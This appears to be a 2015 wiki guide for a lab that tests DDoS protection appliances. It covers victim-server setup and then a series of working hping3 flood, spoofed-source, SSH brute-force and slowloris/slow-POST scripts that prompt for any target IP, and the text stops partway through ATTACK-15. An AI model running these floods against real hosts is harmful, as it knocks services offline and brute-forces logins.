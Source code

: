 {{{
Author       : Mohamed Ashraf Ali
Title        : Distributed Denial Of Service: Device Under Test Proof Of Concept (DDOS DUT POC)
Version      : 1.0
Creation date: 25/6/2015
Latest update: 28/6/2015
}}}



<<TableOfContents(4)>>



{{attachment:logo1.jpg}}


= Introduction =

- In this project we needed to deploy a lab environment in order to test DDOS DUTs.

- Standards were needed to be adjusted for all DUTs testing, where all DUTs were to be tested on common grounds.

- A near real life scenarios needed to be tested and calibrated with given DUTs.

== The main requirements ==

''1-'' Deploy a victim system, with almost all well known services configured and deployed.

''2-'' Deploy An Attacker System capable of Utilizing and deploying several Layer-4 & 7 DDOS Attacks.

''3-'' Deploy a Client System, where it well generate and request Legitimate traffic in correspondence with the Victim.

''4-'' Deploy a Calibration System, in order to act as a dependable performance measurement through out all the phases of the POC. 

-----

= The Victim =

{{attachment:victim.png}}

- The Victim is the System which is going to be under Attack by the Attacker (The Swarm) and under protection by the DDOS DUT.

== System Specifications ==

- The Victim Server held the following Specs:

OS: Debian 8.1 (Jessie)

CPU: 4xCore

RAM: 4GB

Swap: 8GB

Disk: 500GB

== Preparing The Server ==

1- First Comes the network configuration, which includes Mang. Iface and the Data Traffic Iface

2- Add Routes in order to respond to the victim Legitimate Traffic, and the Swarm Layer-7 Attacks.

''Network is configured as below:''
{{{
# The loopback network interface
auto lo
iface lo inet loopback

# PRIMARY IFACES
allow-hotplug eth0
iface eth0 inet static
       address 192.168.0.66
       netmask 255.255.255.0
       network 192.168.0.0
       broadcast 192.168.0.255
#      gateway 192.168.0.1
       name-servers 192.168.0.4

allow-hotplug eth1
iface eth1 inet static
       address 10.10.10.2
       netmask 255.255.255.0
       network 10.10.10.0
       broadcast 10.10.10.255
       gateway 10.10.10.1
#      mtu 800

#STATICS
up route add -net 192.168.0.0/16 gw 192.168.0.1 dev eth0
up route add -net 10.172.99.0/24 gw 192.168.0.1 dev eth0

## Client RESPONCE:
up route add -net 30.30.0.0/16 gw 10.10.10.1 dev eth1

## ATTACK RESPONCE:
#up route add -net 100.200.0.0/16 gw 10.10.10.1 dev eth1
}}}

3- Configure Server Hostname & Hosts File

{{{
root@DDoS-Victim:~# cat /etc/hostname 
DDoS-Victim

root@DDoS-Victim:~# cat /etc/hosts
127.0.0.1       localhost.localdomain  localhost
192.168.0.66    DDoS-Victim.noor.net   DDoS-Victim

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
}}}

4- Configure Apt-cacher Link, for packages installation.

{{{
root@DDoS-Victim:~# cat /etc/apt/apt.conf.d/02apt-cacher 
Acquire::http { Proxy "http://192.168.0.114:3142"; };
}}}

== Installing services ==

- Now I started building and configuring the Services that is going to be under stress.

- Of course all services needs to fully configured and Legitimate, so it can generate Legitimate traffic with the Client System.

=== Apache ===

- Apache Web Server is Used for HTTP & HTTPS Traffic

==== Install Apache ====

- To install Apahce and enable its modules:
{{{
apt-get update && apt-get install apache2 -y

a2enmod ssl
a2enmod rewrite
a2enmod ssl
a2enmod proxy
a2enmod proxy_http
a2enmod proxy_ajp
a2enmod rewrite
a2enmod deflate
a2enmod headers
a2enmod proxy_balancer
a2enmod proxy_connect
a2enmod proxy_html
a2enmod rewrite
a2enmod ssl
a2enmod proxy
a2enmod proxy_http
a2enmod proxy_ajp
a2enmod rewrite
a2enmod deflate
a2enmod headers
a2enmod proxy_balancer
a2enmod proxy_connect
a2enmod proxy_html
}}}

==== Configure Apache ====
- Before restarting APACHE Server, Configure the HTTP Directives.

{{{
root@DDoS-Victim:~# cat /etc/apache2/sites-available/000-default.conf 
<VirtualHost *:80>
        ServerAdmin webmaster@localhost

        DocumentRoot /var/www
        <Directory />
                Options FollowSymLinks
                AllowOverride None
        </Directory>
        <Directory /var/www/>
                Options Indexes FollowSymLinks MultiViews
                Options +Indexes
                AllowOverride None
                Order allow,deny
                allow from all
        </Directory>

        ScriptAlias /cgi-bin/ /usr/lib/cgi-bin/
        <Directory "/usr/lib/cgi-bin">
                AllowOverride None
                Options +ExecCGI -MultiViews +SymLinksIfOwnerMatch
                Order allow,deny
                Allow from all
        </Directory>

        ErrorLog ${APACHE_LOG_DIR}/error.log

        # Possible values include: debug, info, notice, warn, error, crit,
        # alert, emerg.
        LogLevel warn

        CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>

<VirtualHost *:443>
        ServerAdmin webmaster@localhost
        DocumentRoot /var/www/
        SSLEngine On
        SSLCertificateFile    /etc/ssl/certs/ssl-cert-snakeoil.pem
        SSLCertificateKeyFile /etc/ssl/private/ssl-cert-snakeoil.key
        ErrorLog ${APACHE_LOG_DIR}/error.log
        CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>
}}}

- Almost 300Migs of content from NYTIMES Website has been imported and included into our Victim System.

{{{
root@DDoS-Victim:/var/www/www.nytimes.com# pwd
/var/www/www.nytimes.com

root@DDoS-Victim:/var/www/www.nytimes.com# ls -lh
total 1000K
drwxr-xr-x  3 root root 4.0K Jun  1 09:13 2006
drwxr-xr-x  8 root root 4.0K Jun  1 09:13 2014
drwxr-xr-x  8 root root 4.0K Jun  1 09:13 2015
drwxr-xr-x  3 root root 4.0K Jun  1 09:13 ads
drwxr-xr-x  3 root root 4.0K Jun  1 09:13 adx
drwxr-xr-x  3 root root 4.0K Jun  1 09:13 aponline
drwxr-xr-x  2 root root 4.0K Jun  1 09:13 column
drwxr-xr-x  3 root root 4.0K Jun  1 09:13 content
drwxr-xr-x  2 root root 4.0K Jun  1 09:13 crosswords
drwxr-xr-x  2 root root 4.0K Jun  1 09:13 events
-rw-r--r--  1 root root  34K Jun  1 09:13 events.html.tmp
drwxr-xr-x  3 root root 4.0K Jun  1 09:13 imagepages
drwxr-xr-x  3 root root 4.0K Jun  1 09:13 images
drwxr-xr-x  3 root root 4.0K Jun  1 09:13 indexes
-rw-r--r--  1 root root 157K Jun  1 09:13 index.html
drwxr-xr-x 13 root root 4.0K Jun  1 09:13 interactive
drwxr-xr-x  4 root root 4.0K Jun  1 09:13 js
-rw-r--r--  1 root root  66K Jun  1 09:13 most-popular-emailed.html.tmp
-rw-r--r--  1 root root  65K Jun  1 09:13 most-popular.html.tmp
-rw-r--r--  1 root root  66K Jun  1 09:13 most-popular-viewed.html.tmp
drwxr-xr-x 32 root root 4.0K Jun  1 09:13 pages
-rw-r--r--  1 root root  52K Jun  1 09:13 recommendations.html.tmp
drwxr-xr-x  3 root root 4.0K Jun  1 09:13 ref
drwxr-xr-x  3 root root 4.0K Jun  1 09:13 reuters
drwxr-xr-x  3 root root 4.0K Jun  1 09:13 roomfordebate
-rw-r--r--  1 root root 170K Jun  1 09:13 roomfordebate.html.tmp
drwxr-xr-x  2 root root 4.0K Jun  1 09:13 section
drwxr-xr-x  4 root root 4.0K Jun  1 09:13 services
drwxr-xr-x  4 root root 4.0K Jun  1 09:13 slideshow
drwxr-xr-x  4 root root 4.0K Jun  1 09:13 subscriptions
drwxr-xr-x  3 root root 4.0K Jun  1 09:13 svc
-rw-r--r--  1 root root  26K Jun  1 09:13 toggleIHTtoNYT.html.tmp
-rw-r--r--  1 root root  26K Jun  1 09:13 toggleNYTtoIHT.html.tmp
drwxr-xr-x  3 root root 4.0K Jun  1 09:13 travel
drwxr-xr-x 13 root root 4.0K Jun  1 09:13 video
-rw-r--r--  1 root root 115K Jun  1 09:13 videoae0c.html.tmp
-rw-r--r--  1 root root  97K Jun  1 09:13 video.html
}}}

- Restart the service or reboot the Server

=== bind9 ===

- Bind is going to be utilized for DNS Service on the Victim system.

==== Install bind9 ====

- to install bind:
{{{
apt-get update && apt-get install bind9
}}}

==== Configure bind9 ====

- Bind Service Configuration Created:

Zone-IPs
{{{
root@DDoS-Victim:/etc/bind# cat db.192 
;
; BIND reverse data file for local loopback interface
;
$TTL    604800
@       IN      SOA     ns.myhome.net. root.myhome.net. (
                              1         ; Serial
                         604800         ; Refresh
                          86400         ; Retry
                        2419200         ; Expire
                         604800 )       ; Negative Cache TTL
;
@       IN      NS      ns.
100     IN      PTR     core.myhome.net.
101     IN      PTR     gw.myhome.net.
101     IN      PTR     control.myhome.net.
102     IN      PTR     ns.myhome.net.
102     IN      PTR     dns.myhome.net.
103     IN      PTR     media.myhome.net.
104     IN      PTR     lb.myhome.net.
}}}

Zone Inverse
{{{
root@DDoS-Victim:/etc/bind# cat db.myhome.net 
; BIND reverse data file for empty rfc1918 zone
;
; DO NOT EDIT THIS FILE - it is used for multiple zones.
; Instead, copy it, edit named.conf, and use that copy.
;
$TTL    86400
@       IN      SOA     ns.myhome.net. root.myhome.net. (
                              1         ; Serial
                         604800         ; Refresh
                          86400         ; Retry
                        2419200         ; Expire
                          86400 )       ; Negative Cache TTL
;
@       IN      NS      ns.myhome.net.
l1-wifi IN      A       192.168.1.1
l3-wifi IN      A       192.168.1.3

core    IN      A       192.168.1.100
gw      IN      A       192.168.1.101
control IN      A       192.168.1.101
ns      IN      A       192.168.1.102
dns     IN      A       192.168.1.102
media   IN      A       192.168.1.103
lb      IN      A       192.168.1.104

l1-asus IN      A       10.10.10.1
l3-asus IN      A       10.10.10.3
}}}

Add-Zone
{{{
root@DDoS-Victim:/etc/bind# cat named.conf.local 
//
// Do any local configuration here
//

// Consider adding the 1918 zones here, if they are not used in your
// organization
//include "/etc/bind/zones.rfc1918";

zone "myhome.net" {
         type master;
         file "/etc/bind/db.myhome.net";
};



zone "1.168.192.in-addr.arpa" {
        type master;
        notify no;
        file "/etc/bind/db.192";
};
}}}

Configure DNS Options
{{{
root@DDoS-Victim:/etc/bind# cat named.conf.options 
options {
        directory "/var/cache/bind";

        // If there is a firewall between you and nameservers you want
        // to talk to, you may need to fix the firewall to allow multiple
        // ports to talk.  See http://www.kb.cert.org/vuls/id/800113

        // If your ISP provided one or more IP addresses for stable
        // nameservers, you probably want to use them as forwarders.
        // Uncomment the following block, and insert the addresses replacing
        // the all-0's placeholder.

        // forwarders {
        //      0.0.0.0;
        // };

        //========================================================================
        // If BIND logs error messages about the root key being expired,
        // you will need to update your keys.  See https://www.isc.org/bind-keys
        //========================================================================
        dnssec-validation auto;

        auth-nxdomain no;    # conform to RFC1035
        listen-on-v6 { any; };

        allow-query { localhost; 192.168.0.0/24; 10.10.10.0/24; 172.3.1.0/24; 30.30.0.0/16;};
        allow-recursion { localhost; 192.168.0.0/24; 10.10.10.0/24; 172.3.1.0/24; 30.30.0.0/16;};
        forwarders { 217.139.0.38; 217.139.225.250; 8.8.8.8; 4.2.2.2;};

};
}}}

- Restart the service or reboot the Server

=== postfix ===

- Postfix Is Used for the SMTP type of traffic.

==== Install Postfix ====

- To install postfix:

{{{
apt-get update && apt-get install postfix -y
}}}
==== Configure Postfix ====

- The following Configuration was used to obtain an operational Postfix.

{{{
root@DDoS-Victim:/etc/bind# cat /etc/postfix/main.cf 
# See /usr/share/postfix/main.cf.dist for a commented, more complete version


# Debian specific:  Specifying a file name will cause the first
# line of that file to be used as the name.  The Debian default
# is /etc/mailname.
#myorigin = /etc/mailname

smtpd_banner = $myhostname ESMTP $mail_name (Debian/GNU)
biff = no

# appending .domain is the MUA's job.
append_dot_mydomain = no

# Uncomment the next line to generate "delayed mail" warnings
#delay_warning_time = 4h

readme_directory = no

# TLS parameters
smtpd_tls_cert_file=/etc/ssl/certs/ssl-cert-snakeoil.pem
smtpd_tls_key_file=/etc/ssl/private/ssl-cert-snakeoil.key
smtpd_use_tls=yes
smtpd_tls_session_cache_database = btree:${data_directory}/smtpd_scache
smtp_tls_session_cache_database = btree:${data_directory}/smtp_scache

# See /usr/share/doc/postfix/TLS_README.gz in the postfix-doc package for
# information on enabling SSL in the smtp client.

myhostname = DDoS-Victim.noor.net
alias_maps = hash:/etc/aliases
alias_database = hash:/etc/aliases
myorigin = /etc/mailname
mydestination = victim.com, DDoS-Victim.noor.net, localhost.noor.net, localhost
relayhost = 
mynetworks = 172.3.1.0/24 192.168.0.0/24 127.0.0.0/8 [::ffff:127.0.0.0]/104 [::1]/128
mailbox_command = procmail -a "$EXTENSION"
mailbox_size_limit = 0
recipient_delimiter = +
inet_interfaces = all
virtual_alias_maps = hash:/etc/postfix/virtual
}}}

- Restart the service or reboot the Server

=== vsftpd ===

- vsftpd was going to be used for FTP service & Traffic generation

==== Install vsftpd ====

- To install the service

{{{
 apt-get update && apt-get install vsftpd -y
}}}

==== Configure vsftpd ====

- The following configuration was created:

{{{
root@DDoS-Victim:/etc/bind# cat /etc/vsftpd.conf
listen=YES

anonymous_enable=YES

local_enable=YES

write_enable=YES

local_umask=022

anon_upload_enable=YES

anon_mkdir_write_enable=YES

dirmessage_enable=YES

use_localtime=YES

xferlog_enable=YES

connect_from_port_20=YES

secure_chroot_dir=/var/run/vsftpd/empty

pam_service_name=vsftpd

rsa_cert_file=/etc/ssl/private/vsftpd.pem

chroot_local_user=YES
}}}


- FTP Directory has been created under user "core"

{{{
root@DDoS-Victim:/home/core/ftp-files# pwd
/home/core/ftp-files
}}}

- Two test files created for FTP Transfer test, 1M & 10M.

{{{
root@DDoS-Victim:/home/core/ftp-files# ls -lh
total 11M
-rw-r--r-- 1 root root  9.9M Jun 10 10:12 test10m
-rw-r--r-- 1 root root 1006K Jun 10 10:09 test1m
}}}

- Restart the service or reboot the Server


=== SNMP ===

- SNMP was needed for server monitoring and for another open port opurtunity.

==== Install SNMP ====

- to install the service exe the following

{{{
apt-get update && apt-get install snmp snmpd -y
}}}

==== Configure SNMP ====

- The following Configuration was used for SNMP.

{{{
root@DDoS-Victim:~# cat /etc/snmp/snmpd.conf
#  Listen for connections from the local system only
agentAddress  udp:127.0.0.1:161
#  Listen for connections on eth1 only
agentAddress  udp:192.168.0.66:161

## System location and contact information
syslocation LAB
syscontact THE-SWARM

rocommunity TeSt0FDd0S
}}}


- Restart the service or reboot the Server

=== ntp ===

- to install NTP on the Server apply the following :

{{{
apt-get update && apt-get install ntp ntpdate ntpstat ntp-doc -y
}}}
-----

= The Swarm =

{{attachment:swarm.jpg}}

- The Swarm is the System responsible for Deploying a wide range of DOS Attacks in order to test the DUT and Bleed the Victim.

== System Specifications ==

- The Swarm Server held the following Specs:

OS: Kali 1.1 (Moto)

CPU: 4xCore

RAM: 8GB

Swap: 8GB

Disk: 500GB

== Preparing The Server ==

1- First Comes the network configuration, which includes Mang. Iface and the Data Traffic Iface.

2- Then a twenty different sub interfaces are created in order to source the attacks from.

{{{
root@The-SWARM:~# cat /etc/network/interfaces 
# The loopback network interface
auto lo
iface lo inet loopback

# PRIMARY IFACES
auto eth0
iface eth0 inet static
       address 192.168.0.77
       netmask 255.255.255.0
       network 192.168.0.0
       broadcast 192.168.0.255
       name-servers 192.168.0.4
#      gateway 192.168.0.1

auto eth1
iface eth1 inet static
       address 172.3.1.2
       netmask 255.255.255.252
       network 172.3.1.0
       broadcast 172.3.1.3
       gateway 172.3.1.1

#STATICS
up route add -net 192.168.0.0/16 gw 192.168.0.1 dev eth0 
up route add -net 10.172.99.0/24 gw 192.168.0.1 dev eth0


######################## ATTACK IFACES

auto eth1:1
iface eth1:1 inet static
        address 40.40.1.1
        netmask 255.255.255.0

auto eth1:2
iface eth1:2 inet static
        address 40.40.2.1
        netmask 255.255.255.0

auto eth1:3
iface eth1:3 inet static
        address 40.40.3.1
        netmask 255.255.255.0

auto eth1:4
iface eth1:4 inet static
        address 40.40.4.1
        netmask 255.255.255.0

auto eth1:5
iface eth1:5 inet static
        address 40.40.5.1
        netmask 255.255.255.0

auto eth1:6
iface eth1:6 inet static
        address 40.40.6.1
        netmask 255.255.255.0

auto eth1:7
iface eth1:7 inet static
        address 40.40.7.1
        netmask 255.255.255.0

auto eth1:8
iface eth1:8 inet static
        address 40.40.8.1
        netmask 255.255.255.0

auto eth1:9
iface eth1:9 inet static
        address 40.40.9.1
        netmask 255.255.255.0

auto eth1:10
iface eth1:10 inet static
        address 40.40.10.1
        netmask 255.255.255.0

auto eth1:11
iface eth1:11 inet static
        address 40.40.11.1
        netmask 255.255.255.0

auto eth1:12
iface eth1:12 inet static
        address 40.40.12.1
        netmask 255.255.255.0

auto eth1:13
iface eth1:13 inet static
        address 40.40.13.1
        netmask 255.255.255.0

auto eth1:14
iface eth1:14 inet static
        address 40.40.14.1
        netmask 255.255.255.0

auto eth1:15
iface eth1:15 inet static
        address 40.40.15.1
        netmask 255.255.255.0

auto eth1:16
iface eth1:16 inet static
        address 40.40.16.1
        netmask 255.255.255.0

auto eth1:17
iface eth1:17 inet static
        address 40.40.17.1
        netmask 255.255.255.0

auto eth1:18
iface eth1:18 inet static
        address 40.40.18.1
        netmask 255.255.255.0

auto eth1:19
iface eth1:19 inet static
        address 40.40.19.1
        netmask 255.255.255.0

auto eth1:20
iface eth1:20 inet static
        address 40.40.20.1
        netmask 255.255.255.0
}}}

3- Configure Server Hostname & Hosts File

{{{
root@The-SWARM:~# cat /etc/hostname
The-SWARM

root@The-SWARM:~# cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       The-SWARM.noor.net      The-SWARM
10.10.10.2      www.victim.com
# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

10.10.10.2    smtp.victim.com victim.com
}}}

4- Configure Apt-cacher Link, for packages installation.

{{{
root@The-SWARM:~# cat /etc/apt/apt.conf.d/02apt-cacher 
Acquire::http { Proxy "http://192.168.0.114:3142"; };
}}}


== Preparing Attack Tools ==

- The following Tools I used for Attacks:

''Layer4''

1- hping

2- hydra

''Layer7''

3- slowloris

4- slowhttptest

=== Layer 4 Attacks ===

- The following are the Layer-4 Attacks that I built and deployed on The-SWARM System.

==== ATTACK-1: SYN flood ====

{{{
root@The-SWARM:~# cat /usr/bin/ATTACK-1
#! /bin/bash

echo "###################### IP SYN FLOOD ######################"
echo -en "Whos going to cry today (IP):"
read tarip
echo -en ENTER PACKET SIZE:
read packet
echo -en ENTER PORT NUMBER:
read port
echo -en ENTER NUMBER OF HPING THREADS:
read count
echo "################# STARTING THREADS ######################"
#packet=$1
#port=$2
#count=$3

for i in `seq 1 $count`;
 do
  hping3 $tarip -S -d $packet -p $port --flood -I eth1 --rand-source &
 done

}}}

==== ATTACK-2: SYN-ACK flood ====

{{{
root@The-SWARM:~# cat /usr/bin/ATTACK-2
#! /bin/bash

echo "###################### IP SYN-ACK FLOOD ######################"
echo -en "Whos going to cry today (IP):"
read tarip
echo -en ENTER PACKET SIZE:
read packet
echo -en ENTER PORT NUMBER:
read port
echo -en ENTER NUMBER OF HPING THREADS:
read count
echo "################# STARTING THREADS ######################"
#packet=$1
#port=$2
#count=$3

for i in `seq 1 $count`;
 do
  hping3 $tarip -S -A -d $packet -p $port --flood -I eth1 --rand-source &
 done
}}}

==== ATTACK-3: Random (but identical across packet) payload (20 bytes payload) ====

{{{
root@The-SWARM:~# cat /usr/bin/ATTACK-3
#! /bin/bash

echo "###################### Flood of random (but identical across packet) payload. ######################"
echo -en "Whos going to cry today (IP):"
read tarip
echo -en ENTER PORT NUMBER:
read port
echo -en ENTER NUMBER OF HPING THREADS:
read count
echo "################# STARTING THREADS #################################################################"
#packet=$1
#port=$2
#count=$3

cd /usr/bin
for i in `seq 1 $count`;
do
python -c "import random, sys;
sys.stdout.write(''.join(['\\\x{0:02x}'.format(random.randint(0,255)) for _ in range(20)]))" > ack_payload$i
hping3 $tarip -A -d 20 -p $port --flood -I eth1 -E ack_payload$i --rand-source &
done
}}}

==== ATTACK-4: RST flood ====

{{{
root@The-SWARM:~# cat /usr/bin/ATTACK-4
#! /bin/bash

echo "###################### spoofed RST flood ######################"
echo -en "Whos going to cry today (IP):"
read tarip
echo -en ENTER PACKET SIZE:
read packet
echo -en ENTER PORT NUMBER:
read port
echo -en ENTER NUMBER OF HPING THREADS:
read count
echo "################# STARTING THREADS ######################"
#packet=$1
#port=$2
#count=$3

for i in `seq 1 $count`;
 do
  hping3 $tarip -R -d $packet -p $port --flood -I eth1 --rand-source &
 done
}}}

==== ATTACK-5: Synonymous payload (20 bytes payload) with spoofed source of victim itself ====

{{{
root@The-SWARM:~# cat /usr/bin/ATTACK-5
#! /bin/bash

echo "###################### Synonymous payload (20 bytes payload) with spoofed source of victim itself ######################"
echo -en "Whos going to cry today (IP):"
read tarip
echo -en ENTER PORT NUMBER:
read port
echo -en ENTER NUMBER OF HPING THREADS:
read count
echo "################# STARTING THREADS #####################################################################################"
#packet=$1
#port=$2
#count=$3

cd /usr/bin
for i in `seq 1 $count`;
 do
python -c "import random, sys;
sys.stdout.write(''.join(['\\\x{0:02x}'.format(random.randint(0,255)) for _ in range(20)]))" > synonymous_payload$i
hping3 $tarip -A -d 20 -p $port --flood -I eth2.101 -E synonymous_payload$i --spoof 10.10.10.2 &
 done
}}}

==== ATTACK-6: SSH Brute Force ====

{{{
root@The-SWARM:~# cat /usr/bin/ATTACK-6
#! /bin/bash

echo "###################### SSH BRUTE FORCE ######################"
echo -en "Whos going to cry today (IP):"
read tarip
echo -en "ENTER NUMBER OF SSH THREADS (1-64)[recommend 64]:"
read count
echo "################# STARTING THREADS ##########################"
#packet=$1
#port=$2
#count=$3
cd /usr/bin
hydra $tarip ssh -s 22 -P password-list.txt -l root -e ns -t $count -vV
}}}

==== ATTACK-7: Random (but identical across packet) UDP payload (20 bytes payload) ====

{{{
root@The-SWARM:~# cat /usr/bin/ATTACK-7
#! /bin/bash

echo "###################### Flood of random (but identical across packet) payload. ######################"
echo -en "Whos going to cry today (IP):"
read tarip
echo -en ENTER PORT NUMBER:
read port
echo -en ENTER NUMBER OF HPING THREADS:
read count
echo "################# STARTING THREADS #################################################################"
#packet=$1
#port=$2
#count=$3

cd /usr/bin
for i in `seq 1 $count`;
do
python -c "import random, sys;
sys.stdout.write(''.join(['\\\x{0:02x}'.format(random.randint(0,255)) for _ in range(20)]))" > udp_payload$i
hping3 $tarip --udp -p $port --flood -I eth1 --rand-source -d 20 -E udp_payload$i &
done
}}}

==== ATTACK-8: Fragmentation Random Payload - UDP PAYLOAD ====

{{{
root@The-SWARM:~# cat /usr/bin/ATTACK-8
#! /bin/bash

echo "###################### Fragmentation Random Payload - UDP PAYLOAD ######################"
echo -en "Whos going to cry today (IP):"
read tarip
echo -en ENTER PORT NUMBER:
read port
echo -en ENTER Packet Size:
read packet
echo -en ENTER Frag Size:
read frag
echo -en ENTER NUMBER OF HPING THREADS:
read count
echo "################# STARTING THREADS #################################################################"
#packet=$1
#port=$2
#count=$3

cd /usr/bin
for i in `seq 1 $count`;
do
python -c "import random, sys;
sys.stdout.write(''.join(['\\\x{0:02x}'.format(random.randint(0,255)) for _ in xrange(1000)]))" > udp_frag_payload$i
hping3 $tarip --udp -p $port --flood -I eth1 --rand-source -x -g $frag -d $packet -E udp_frag_payload$i &
done
}}}

==== ATTACK-9: DNS Payload to DNS port flood ====

{{{
root@The-SWARM:~# cat /usr/bin/ATTACK-9
#! /bin/bash

echo "###################### DNS Payload to DNS port flood ######################"
echo -en "Whos going to cry today (IP):"
read tarip
echo -en ENTER NUMBER OF HPING THREADS:
read count
echo "################# STARTING THREADS #################################################################"
#packet=$1
#port=$2
#count=$3

cd /usr/bin
for i in `seq 1 $count`;
do
python -c "import sys;
sys.stdout.write('\x00\x02\x01\x00\x00\x01\x00\x00\x00\x00\x00\x00\x06\x67\x6f\x6f\x67\x6c\x65\x03\x63\x6f\x6d\x00\x00\x01\x00\x01')" > dns_payload$i
hping3 $tarip --udp -p 53 --flood -I eth1 --rand-source -E dns_payload$i -d 28 &
done
}}}

==== ATTACK-10: ICMP code-5 FLOOD ====

{{{
root@The-SWARM:~# cat /usr/bin/ATTACK-10
#! /bin/bash

echo "###################### ICMP code-5 FLOOD ######################"
echo -en "Whos going to cry today (IP):"
read tarip
echo -en ENTER NUMBER OF HPING THREADS:
read count
echo "################# STARTING THREADS ######################"
#packet=$1
#port=$2
#count=$3

for i in `seq 1 $count`;
 do
  hping3 $tarip --icmp --flood -I eth1 --rand-source -C 5 &
 done
}}}

==== ATTACK-11: ICMP code-5 FRAG FLOOD ====

{{{
root@The-SWARM:~# cat /usr/bin/ATTACK-11
#! /bin/bash

echo "###################### ICMP code-5 FRAG FLOOD ######################"
echo -en "Whos going to cry today (IP):"
read tarip
echo -en ENTER NUMBER OF HPING THREADS:
read count
echo "################# STARTING THREADS ######################"
#packet=$1
#port=$2
#count=$3

for i in `seq 1 $count`;
 do
  hping3 $tarip --icmp --flood -I eth1 --rand-source -c 5 -x -g 100 &
 done
}}}


==== ATTACK-12: ICMP code-8 FLOOD ====

{{{
root@The-SWARM:~# cat /usr/bin/ATTACK-12
#! /bin/bash

echo "###################### ICMP code-8 FLOOD ######################"
echo -en "Whos going to cry today (IP):"
read tarip
echo -en ENTER NUMBER OF HPING THREADS:
read count
echo "################# STARTING THREADS ######################"
#packet=$1
#port=$2
#count=$3

for i in `seq 1 $count`;
 do
  hping3 $tarip --icmp --flood -I eth1 --rand-source &
 done
}}}

=== Layer 7 Attacks ===

==== ATTACK-13: SLOW-LORIS HTTP ATTACK ====

{{{
root@The-SWARM:~# cat /usr/bin/ATTACK-13
#! /bin/bash

echo "###################### SLOW-LORIS ######################"
echo -en "Whos going to cry today (IP):"
read tarip
echo "CHOOSE ATTACK TYPE:"
echo "1- Test Mode"
echo "2- Default Mode"
echo
read -p 'Your choice: ' Fpointer
echo "################# STARTING THREADS ######################"
cd /usr/bin

case $Fpointer in

  1) ( slowloris.pl -dns $tarip -test
     )
  ;;

  2) ( slowloris.pl -dns $tarip
     )
  ;;

esac
}}}

==== ATTACK-14: SLOW-POST HTTP ATTACK ====

{{{
root@The-SWARM:~# cat /usr/bin/ATTACK-14
#! /bin/bash

echo "###################### SLOW-POST ######################"
echo -en "Whos going to cry today (IP):"
read tarip
echo "################# STARTING THREADS ######################"

slowhttptest -c 3000 -B -i 110 -r 200 -s 8192 -t FAKEVERB -u http://$tarip/ -x 10 -p 3
}}}

==== ATTACK-15: SLOW-READ HTTP ATTACK ====

{{{
root@The-SWARM:~# cat /usr/bin/ATTACK-15
#! /bin/bash

echo "###################### SLOW-READ ######################"
